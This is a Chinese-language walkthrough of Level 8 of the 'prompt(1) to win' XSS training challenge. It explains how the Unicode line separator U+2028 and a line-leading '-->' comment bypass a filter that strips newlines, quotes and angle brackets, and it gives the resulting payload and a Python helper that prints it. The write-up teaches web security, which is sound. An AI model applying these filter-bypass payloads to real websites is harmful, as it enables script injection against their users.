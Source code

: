 ## [[prompt(1) to win](http://prompt.ml)] [[Level 8 - Unicode](http://prompt.ml/8)] [[解题报告](http://exp-blog.com/2019/03/24/pid-3681/)]

------

## 题目

```javascript
function escape(input) {
    // prevent input from getting out of comment
    // strip off line-breaks and stuff
    input = input.replace(/[\r\n</"]/g, '');

    return '                                \n\
<script>                                    \n\
    // console.log("' + input + '");        \n\
</script> ';
}
```

## 解题报告

### 绕过换行过滤

这题一开始就把我们输入的内容都放到 `<script>` 标签里面了，换言之我们可以直接注入 JS 代码。

但实际上所输入的内容都在 行注释 `//` 后面，即使注入了 JS 也被注释掉，无法执行。

很明显要想办法把我们注入的内容换行，但是又题目把 回车换行符 `\r\n` 都过滤掉了，无法直接换行：

![](http://exp-blog.com/wp-content/uploads/2019/03/7a07cf2aea8298ae5dcab7015556448f.png)

虽然 **ASCII** 字符的换行符被过滤了，但是在 JS 里面是可以直接使用 Unicode 字符的，即可以使用 **Unicode** 的换行符进行绕过。查一下 Unicode 空字符的编码表，其中换行符的编码是 `\u000A` 和 `\u2028`。

但是 `\u000A` 等价于 ASCII 的 `\n` ，前面知道它被过滤了无法使用，所以可以使用 `\u2028` 作为替代。

| Unicode 编码 | 转义字符 | 含义 |
|:---------:|:---------:|:---------:|
| `\u0008` | `\b` | Backspace |
| `\u0009` | `\t` | TAB |
| `\u000A` | `\n` | 换行符 |
| `\u000B` | `\v` | 垂直制表符 |
| `\u000C` | `\f` | 换页符 |
| `\u000D` | `\r` | 回车符 |
| `\u0022` | `\"` | 双引号 `"` |
| `\u0027` | `\'` | 单引号 `'` |
| `\u005C` | `\\` | 反斜杠 `\` |
| `\u00A0` | | 不间断空格 |
| `\u2028` | | 行分隔符 |
| `\u2029` | | 段落分隔符 |
| `\uFEFF` | | 字节顺序标记 |

关于如何输入 `\u2028` 字符，后面再说。

这里先假设我们已经成功使用 `\u2028` 字符进行换行，跳出了 `//` 行注释。

那么我们预期用于完成挑战的 JS 代码应该是这样的：

```html
<script>
    // console.log("
prompt(1)");
</script>
```

但事实上这段代码由于语法错误，`prompt(1)` 是无法执行的，原因是末尾的 `");` 。

即使把  `");`  换到另一行，依然是语法错误：

```html
<script>
    // console.log("
prompt(1)
");
</script>
```

![](http://exp-blog.com/wp-content/uploads/2019/03/ce3c567fed17527537c893749e7cdbe7.png)

------------


### 绕过注释过滤

为了把  `");` 处理掉，要么将其闭合，要么将其注释。

但是尖括号 `<` 、双引号 `"` 、反斜杠 `/` 也都被过滤了，所以既没办法提前闭合 `</script>`， 也没办法使用另一个函数 `fun("` 向后闭合引号，当然多行注释 `/*` 和行注释 `//` 也没办法使用了，就更不用说 `<!--` HTML 注释了（而且在 JS 区域内也没法用）。

这里需要使用到 JS 中的一个注释黑魔法：

**在 JS 代码中，当** `-->` **位于行首时（左侧不能有任何非空字符），那么它相当于行注释**。

因此只需要构造这样的代码，就可以成功注释掉  `");` ：

```html
<script>
    // console.log("
prompt(1)
-->");
</script>
```

![](http://exp-blog.com/wp-content/uploads/2019/03/0562dbdab6a030b3520f9cc5a67e1cef.png)


------------

### 构造 payload

至此我们可以已经知道 payload 应该为：`\u2028prompt(1)\u2028-->`

但是题目并不会帮我们把 Unicode 编码 `\u2028` 直接转换为换行符，所以我们需要直接输入这个换行符。

![](http://exp-blog.com/wp-content/uploads/2019/03/64dba5b140e5f00b2a7ec6bd0a25ca58.png)

但是使用键盘是无法输入这个换行符的，这里我借助了 python 将其直接打印出来。

python 代码为：

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-

print('exp-payload:\u2028prompt(1)\u2028-->(after run, copy this line)')
```

![](http://exp-blog.com/wp-content/uploads/2019/03/3998be10f6d1624dcfe784515a8bb77f.png)

最终得到真正的 payload 如下（注意这个 payload 已经有 Unicode 换行符了，只是看不见罢了）：

`exp-payload: prompt(1) -->`

输入这个 payload 即可完成挑战（但是题目输出依然看不见换行效果...）

![](http://exp-blog.com/wp-content/uploads/2019/03/1d3ac9e7d4bade52b1333d03c335cbd4.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
